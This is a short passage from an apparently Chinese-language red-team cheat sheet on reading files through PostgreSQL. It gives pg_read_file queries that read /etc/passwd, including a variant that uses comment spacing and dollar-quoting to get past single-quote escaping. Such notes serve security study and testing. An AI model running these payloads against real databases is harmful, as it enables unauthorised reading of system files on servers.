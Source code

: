 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/18.png)

---

## PostgreSQL 读文件

**方法1 pg_read_file**

```sql
-- 注意: 在早期的 PostgreSQL 版本中,pg_read_file 不允许使用绝对路径
select pg_read_file('/etc/passwd');

-- 单引号被转义的情况下使用
select/**/PG_READ_FILE($$/etc/passwd$$)
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/15.png)
